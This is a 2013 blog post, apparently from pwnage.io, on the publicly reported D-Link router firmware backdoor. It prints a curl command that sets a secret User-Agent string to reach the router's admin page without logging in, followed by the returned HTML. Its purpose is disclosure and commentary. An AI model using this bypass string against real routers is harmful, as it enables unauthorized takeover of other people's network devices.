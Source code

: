 ```yaml
---
layout: post
title: D-Link Backdoor Fun
date: '2013-10-14T00:24:00.001-06:00'
author: JM
tags: 
modified_time: '2013-10-14T10:38:36.423-06:00'
blogger_id: tag:blogger.com,1999:blog-4063990595241430327.post-5439853457525680456
blogger_orig_url: http://www.pwnage.io/2013/10/d-link-backdoor-fun.html
---
```


## Uh Oh...

Interestingly enough I was messing around with my D-Link router this weekend and found a number of web application vulnerabilities (I've contacted D-Link but haven't heard back - they'll most likely be busy tomorrow though with this MUCH WORSE "vulnerability"), and [this popped up in my twitter feed](http://www.cso.com.au/article/528993/backdoor_found_d-link_router_firmware_code/). This is a news story regarding [this blog post.](http://www.devttys0.com/2013/10/reverse-engineering-a-d-link-backdoor/)

So I did:

`curl -A "xmlset_roodkcableoj28840ybtide" http://192.168.0.1/tools_admin.php`

Which returned:

```
<html>
<head>
<meta http-equiv=Content-Type content="no-cache">
<meta http-equiv=Content-Type content="text/html; charset=utf-8">

<title>D-LINK SYSTEMS, INC | WIRELESS ROUTER | HOME</title>
<script>

-snip-

/* parameter checking */
function check()
{
        var f=get_obj("frm");
        if(is_blank(f.admin_name.value))
        {
                alert("Please input the Login Name.");
                f.admin_name.select();
                return false;
        }
        else if(strchk_hostname(f.admin_name.value)==false)
        {
                alert("The Login Name is with invalid character. Please check it.");
                f.admin_name.select();
                return false;
        }
        if(strchk_unicode(f.admin_password1.value)==true)
        {
                alert("The New Password is with invalid character. Please check it.");
                f.admin_password1.select();
                return false;
        }
        if(f.admin_password1.value!=f.admin_password2.value)
        {
                alert("The New Password and Confirm Password are not matched.");
                f.admin_password1.select();
                return false;
        }

-snip-        
```

Well that's not good. Full authentication bypass.

Something funny that I found in the comments of the Reddit /r/netsec thread:

```
$ ruby -e 'puts "xmlset_roodkcableoj28840ybtide".reverse'
editby04882joelbackdoor_teslmx
```

Well, if Joel's still around I'm not sure how much longer he'll be at his job. Damn...

Update: There has been some speculation that this backdoor is merely functionality: [http://pastebin.com/aMz8eYGa](http://pastebin.com/aMz8eYGa)
